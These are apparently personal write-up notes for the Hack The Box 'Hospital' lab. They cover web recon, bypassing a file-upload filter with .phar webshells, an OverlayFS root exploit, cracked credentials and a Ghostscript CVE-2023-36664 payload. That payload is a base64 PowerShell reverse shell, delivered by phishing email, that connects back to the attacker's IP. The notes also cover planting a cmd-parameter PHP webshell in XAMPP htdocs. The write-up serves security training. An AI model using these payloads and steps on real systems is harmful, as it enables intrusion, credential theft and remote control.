## Reconnaissance

### nmap 





## Strategy 

1. Web Service Enumeration  (port 443, port 8080)
2. SMB enumeration 
	- smbclient
	- smbmap
	- crackmaexec 
3. RDP enumeration 
	- xfreerdp 
	- rdesktop
4. RPC enumeration
	- rpcclient
	- rpcmap
5. kerberoast attack
6. ldap enumerate
	- bloodhound ?

### Web Service 

 #### Port 8080  

> Login function 




> Register function 


> According to TTL(Time To Leave) to define the web service are running on  which OS  
> If I ping the target address directly, it will reply the TTL = 127
> And this result told us the address OS is Windows  (default 128)


> And since the nmap result provide 2 different os.
> Hence I tried to check is there other os running on this address 

```
tcpdump -i tun0 -v -n ip src 10.129.229.189
```


> nc connect to check the network traffic 


> We can find another TTL = 62,
> It should be Linux (by default 64)
> So it might have 2 hop, and I guess one of that is Windows.
> So this linux host maybe run by Hyper-V, WSL ...

#### Identified OS from TTL

1. [How To Identify Operating System Using TTL Value And Ping Command](https://ostechnix.com/identify-operating-system-ttl-ping/)
2. [ttl 127 operating system](https://juejin.cn/s/ttl%20127%20operating%20system)


> Information 

1. Hospital website 
2. Login necessary
3. Register function 
	 - Identified which user exist


4. Upload file with new account
	- File upload attack 

> Gobuster Result 

```
gobuster dir -u https://10.10.11.241:8080/ -w /usr/share/wordlists/dirb/common.txt -o web.out
```


```
gobuster dir -u https://10.10.11.241:8080/ -w /usr/share/wordlists/dirb/common.txt -x php,html,config,txt -o web2.out
```


#### Port 443 

> Login Function 


> We also confirm the /uploads path should be exist, but we don't have permission to acces.


> Information 

1. Webmail service 
2. Roundcube
3. Version not sure 

> Gobuster Result 

```
gobuster dir -u https://10.10.11.241/ -w /usr/share/wordlists/dirb/common.txt -x php, txt, html, config -b 403,404 -k -o webssl.out
```


### Research 

1. Roundcube exploit --- not found 
2. File Upload attack 
	- Bypass check 
	- [(HackTricks)File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)



## Exploit 

> Tried to upload file with different extension 
> If the upload success it will redirect to /success.php
> or it will redirect to /failed.php
> And summarize this enumeration in here, 
> Since some extension will failed, some of them will success
> And if I tried an unknown extension, it will success 
> Hence I guess it use blacklist validation. (if it's whitelist, unknown extension should also be block )

1. Image type: PNG / JPG / JPEG --> OK


2. PHP file (.php) --> Failed 


3. Manipulate extension: 

- Failed 
```
.png.php, .php/, .php.\, .php1, .php2, .php3, .php4, .php5, .php7... 
```




- Success -> server will recognize them as image 
```
.php.png, .php#.png, ...
```


4. unknown extension


5. other extension 
```
.pht .phtm, .phtml, phar, .php%20, .php%0a ... 

```

> I found phar, phtm, pht will success 
> And add some special character with url encode will success, too


#### Alternative method - FUZZ 

1. Copy the request to file in Burp (Remember to save file to the directory which not root one, or the permission will stop to create a file. )
2. Change the file extension to FUZZ, let tool can recognize which one should it FUZZ


3. Choose wordlist
4. Start Fuzz 

```
ffuf -request upload.req -request-proto http -w /usr/share/wordlists/seclists/Fuzzing/extensions-most-common.fuzz.txt
```
   
   
5. Set up filter with regex to find success response 

```
ffuf -request upload.req -request-proto http -w /usr/share/wordlists/seclists/Fuzzing/extensions-most-common.fuzz.txt -mr success
```


> If the wordlist is correct, it can find many extension which can use to upload
> In this challenge, I should find .phar 

--- 

> With above test, I found some extension works. 
> Then I start tried to check the php code will be execute and render in browser or not
> Test phpinfo

```
<?php
phpinfo();
?> 
```


> The following will failed to render (blank)

```
.pht, phtm
```


> Some reverse shell with this extension will response like follow


> Show "Forbidden"

```
.phps
```


> Show "Not Found"

```
.php%0a, .php%20
```


> I didn't test those will be identified as image one.
> Since I think most of them still will be consider as image in server side.
> So it won't execute my php code


> I found only work well one

```
.phar
```


> Then I start to using the following different webshell cod

1. Reverse shell --> Failed to connect 


2. Simple Backdoor 


> Show blank page, 
> but I set up parameter (?cmd=cat /etc/passwd)
> it doesn't show anything, even I used bash to set reverse shell


3. PHP backdoor 


> It success to show the content


> but I tried to use the command, it will response not found page.
> I think there are some error in php code 


> I also found another backdoor file from internet

- [(GITHUB) webshell.php](https://github.com/drag0s/php-webshell/blob/master/webshell.php

> It also can show the page, but command not work (only upload function works well)


> Finally, with this pwnshell, I can get a reverse shell in browser 

- [(GITHUB)p0wny-shell](https://github.com/flozz/p0wny-shell)


> But that is not really stable, and some command won't reply (not fully interactive shell)
> ex. mysql command 


> I set up another reverse shell back to my listener


> So far, I just think maybe I can get user flag, 
> But when I access to home page, I don't have enough permission to check the user directory 


> current user : www-data


> Check network status
> it different from the machine ip address


> Check sudo permission 
> password is necessary ... 


> The most wired things for me is the target machine should be Windows based, but I'm in linux.

```
uname -a 
```


> I check the directory which the web service locate
> Enumerating this directory, and here is some credential in config file 


```
root / my$qls3rv1c3!
```




> Like the previous action, I set up the reverse shell with python to connect to my listener instead in browser webshell.
> With above DB information, I used the credential to connect to mysql in my reverse shell 

```
mysql -h localhost -u root -D hospital -p

```


> Chek above credential, I know those are web service user.
> I can cracked admin's credential 

```
hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
```

> Credential 

```
admin / 123456
```


> Using this credential to check the target service 
> NOTHING SPECIAL


> I also try this credential on webmail service 
> But it failed.
### Privilege Escalation to drwilliams

> I start to find out how to escalate the privilege to drwilliams
> In this challenge, I realize the OS version is also an important information
> And linpeas might not up-to-date information .
> linpeas information as follow:

1. Environment 


2.  Potenial CVEs


> Basic information
> I can confirm the OS version is webserver 5.19.0-35-generic


> Useful software 


> Actually, I also found a lot of information which is not supposed to exist.
> Those are the hint from other users .... 


> With some unexpected hints, I know I have to check and research for OS kernel vulnerability 
> Research exploit code for this OS version 

- [(GITHUB)CVE-2023-2640 / CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

> Upload file to target and execute it.


> It will meet the following error first.


> Hence I check the shell code 
> it will copy /bin/bash to /var/tmp/bash
> then the file might exist and busy 

```
import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```


> Hence I change the copy destination part in the shell code

```
import os;os.setuid(0);os.system("cp /bin/bash /tmp/guys/bash && chmod 4755 /tmp/guys/bash && /tmp/guys/bash -p && rm -rf l m u w /tmp/guys/bash")'
```


> Re-upload and execute it again
> I got root permission


> Check the user


> Then I start to enumerate this system again 
> drwilliams's directory don't have useful information 


> root directory don't have useful information 


> I also execute linpeas again,
> This time, I got the following information 
> I think the /etc/passwd and /etc/shadow disclose some other credential


> I check it again 


> Copy the credential to my host and crack it 



```
unshadow drwilliams.passwd drwilliams.shadow > hash.txt
```


```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


> Success to get credential for drwilliams

```
drwilliams / qwe123!@#
```

### WebMail  Server

> Login to webmail server 


> Check roundcube version 


> Check the mail, only 1 mail 
> 2 important clues 

1. .eps 
2. GhostScript


> Search these keywords
> There is a CVE - CVE-2023-36664


> Description for this CVE

```
Vulnerability disclosed in Ghostscript prior to version 10.01.2 leads to code execution (CVSS score 9.8).
```

> Official description 

```
Artifex Ghostscript through 10.01.2 mishandles permission validation for pipe devices (with the %pipe% prefix or the | pipe character prefix).
"It was discovered that Ghostscript, the GPL PostScript/PDF interpreter, does not properly handle permission validation for pipe devices, which could result in the execution of arbitrary commands if malformed document files are processed."
```

- [Ghostscript command injection vulnerability PoC (CVE-2023-36664)](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection)

> So I follow the usage in Github to create a malicious eps file 


> First time, I using **generate** option
> But it won't work to return reverse shell  after I send it to target by mail (Phishing)

```
python CVE_2023_36664_exploit.py --generate --revshell -ip 10.10.14.46 -port 1338 --filename trigger_revshell --extension eps
```


> Then I tried to inject payload to the eps file I just created

```
python CVE_2023_36664_exploit.py --inject --payload "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANAA2ACIALAAxADMAMwA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" --filename trigger_revshell.eps
```


> Then I start the phishing step
> Reply the mail to drbrown


> Wait for a moment, then I get reverse shell back


> Check user flag 


## Privilege Escalation 

> Current user is **hospital\drbrown**
> I start to enumerate the information
> Network part


> Find a batch file 


> Check the content 
> Find a credential 

```
drbrown.HOSPITAL \ chr!$br0wn
```


> Upload winPEAS 
> I only can upload to C:\Users\drbrown.HOSPITAL\Documents

```
iwr -uri http://10.10.14.55/winPEASx64.exe -OutFile winPEASx64.exe
```

> Here are some interesting clues 

1. apache directory might be used to do DLL hijacking 
- Failed --> I connect with RDP, but Process Monitor can't be executed.


2. Mysql directory 


> Stop in here, I'm not sure how to get system permission after dll hijacking failed
> So I checked writeup, there are 2 ways 

1. vbs file disclosed in Schedule Task 
- There is a vbs file in schedule task 


- Check this file, administrator credential disclosed


```
Administrator / Th3B3stH0sp1t4l9786!
```


> Using evil-winrm or rdp to login 


- RDP, remember to change domain to HOSPITAL\administrator


> Get root flag 


2. It's able to create malicious file in xampp directory 


> Using drbrown credential to check rpcclient information 

```
rpcclient -U "drbrown" 10.10.11.241

> querydispinfo
```

> Check the result, we can find **"Administrator Information is shared with the Guest."**


> Check the permission for /htdocs again
> It includes NT AUTHORITY\SYSTEM permission

```
icacls htdocs
```


> With above informations, I also check some default configuration in XAMPP
> All the file in /htdocs will be route and access from internet 


> So, if I can transfer pwnshell.php to /htdocs by current user then get an administrator's shell 
> Besides upload p0wnyshell.php(pwnshell.php). I also can create other shell php. 
> but if I want to create the shell file by myself, I need to careful about encoding issue.
> Here is the test process.

1. Login to target windows server or using GhostScript to get reverse shell
2. Check C:\xampp\htdocs, like above enumeration, it should have system permission if I create a file in this directory
   


3. Using following command to create a shell php file
   
```
echo "<?php system("whoami"); ?> > shelll.php
```

4. Access it in browser, it won't show anything


5. Check in burpSuit, I will find that value in  response body will be display in UTF-16 



> The hex code like php part will be "70 00 68 00 70 00" in UTF-16




6. But the charset is UTF-8
   


7. I think that is the issue which cause the shell file won't be execute normally 
8. Hence, using the following command to generate a shell file with UTF-8 encoding

```
echo "<?php system('whoami'); ?>" | Out-File -Encoding UTF8 shelll.php
```

9. Then execute it again, the shell file will be executed normally


> With following content, I can do RCE in URL parameter 
```
echo '<?php system($_REQUEST["cmd"); ?>' | Out-File -Encoding UTF8 shelll.php
```


### Windows related tool to confirm credential 

- netexec
## Reference 

- [(Discussion)Hospital](https://forum.hackthebox.com/t/official-hospital-discussion/303520/23)
- [(WriteUp)HTB-Hospital渗透测试](https://blog.csdn.net/weixin_53325365/article/details/134611970)
- [(WriteUp)BiliBili - Hack The Box 赛季3靶场【Hospital】User & System wp](https://www.bilibili.com/video/BV1Ba4y1Z7Jn/)
- [(WriteUp)HackTheBox : Hospital Writeup](https://codingninjablogs.tech/hackthebox-hospital-writeup-887fd3d6fee9)
### File Upload

- [(HackTricks)File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [File Upload Attack](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/)
### PHP - WebShell / Backdoor

- [(GITHUB)p0wny-shell](https://github.com/flozz/p0wny-shell)
- [(GITHUB) webshell.php](https://github.com/drag0s/php-webshell/blob/master/webshell.php)
- [(GITHUB)shells](https://github.com/Kiosec/Shells?tab=readme-ov-file#webshell)
- [Backdoors/Web Shells](https://backdoorshell.gitbooks.io/oscp-useful-links/content/backdoorsweb-shells.html)
### PHP 
- [popen](https://www.php.net/manual/en/function.popen.php)
### CVE-2023-2640 / CVE-2023-32629

- [(GITHUB)CVE-2023-2640 / CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)
- [GameOver(lay): Easy-to-exploit local privilege escalation vulnerabilities in Ubuntu Linux affect 40% of Ubuntu cloud workloads](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability)
### Crack password

- [Cracking /etc/shadow with John](https://erev0s.com/blog/cracking-etcshadow-john/)

### CVE-2023-36664

- [Ghostscript command injection vulnerability PoC (CVE-2023-36664)](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection)
- [Ghostscript 遠端執行程式碼漏洞](https://www.hkcert.org/tc/security-bulletin/ghostscript-multiple-vulnerabilities_20230713)
- [CVE-2023-36664: Command injection with Ghostscript PoC + exploit](https://www.vicarius.io/vsociety/posts/cve-2023-36664-command-injection-with-ghostscript-poc-exploit)
### MariaDB Operation

- [教學 MariaDB/MySQL 常用指令操作與語法範例](https://www.jinnsblog.com/2017/08/mysql-mariadb-sample.html)
### XAMPP

- [XAMPP 基本安裝介紹](https://medium.com/@s10614609/xampp-%E5%9F%BA%E6%9C%AC%E5%AE%89%E8%A3%9D%E4%BB%8B%E7%B4%B9-f5a7b4ce69f4)
### SMB

- [(HackTricks)SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)

### Kerberos 

- [(HackTricks)88tcp/udp - Pentesting Kerberos](https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88)
- [Impacket - GetUserSPNs.py](https://tools.thehacker.recipes/impacket/examples/getuserspns.py)
### RPC

- [(HackTricks)MSRPC](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc)
- [(HackTricks)rpcclient enumeration](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration)
### Windows Privilege Escalation 

- [(HackTricks)Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
- [(GITHUB)Windows - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [(HackTricks)Privilege Escalation with Autoruns](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries)
- [Windows Privilege Escalation](https://backdoorshell.gitbooks.io/oscp-useful-links/content/windows-privilege-escalation.html)
- [(HackTricks)Abusing Token](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
- [(HackTricks)Access Token](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/access-tokens)

### Active Directory

- [Active Directory Reconnaissence - Part 1](https://exploit.ph/active-directory-recon-1.html)
- [(HackTricks)Pentesting LDAP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
## Research 

- How to identified **"Administrator Information is shared with the Guest"** from RPC result ?
- Any other step can find vbs file ? 

> About how to find vbs file. 
> It's important to always check **start up folder** 

- [Windows Local Privilege Escalation - Run at startup](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#run-at-startup)


- [Privilege Escalation with Autoruns](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries#startup-path)

> it's also ok to run all the command in above link 
> In this time, I can find it by this command, 

```
Get-ItemProperty -Path 'Registry::HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders' -Name "Startup"
```


## Others Information 

### ippsec information

> In webshell uplaod, I only can use p0wnyshell to success to finish the lab,
> But after I check ippsec's explain, I want to record the method which not use p0wnyshell

1. Upload the file with following content -> it will show blank page

```
<?php

system("whoami");

?>
```


2. So I tried to upload with following content, and the echo() will be execute, the strings show in browser 
-  It means the php content has been executed.

```
<?php

echo("whoami");

?>
```
